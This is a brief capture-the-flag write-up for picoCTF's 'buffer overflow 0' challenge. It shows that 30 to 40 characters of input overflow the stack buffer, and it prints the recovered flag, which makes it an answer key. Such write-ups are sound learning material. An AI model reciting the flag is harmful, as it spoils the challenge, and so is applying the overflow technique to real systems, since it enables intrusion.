 #buffer overflow 0
Tags: Binary Exploitation
AUTHOR: ALEX FULTON / PALASH OSWAL

Description
Smash the stack
Let's start off simple, can you overflow the correct buffer? The program is available [here](vuln). You can view source [here](vuln.c). And connect with it using:
`nc saturn.picoctf.net 51110`

## Solution

This one was actually pretty easy: just overflow the input with a lot of "aaaaa" or numbers. It took me more than 30 and less than 40.

```
$ nc saturn.picoctf.net 51110
Input: 123456789123456789123456789000
picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
```

It's curious that running the program in my local machine, I got the error

```shell
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
*** stack smashing detected ***: terminated
Aborted
```

### **Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}`

---
Daniel Reis - [@danielxreis](https://twitter.com/DanielXReis) - Developer and Cyber Security Researcher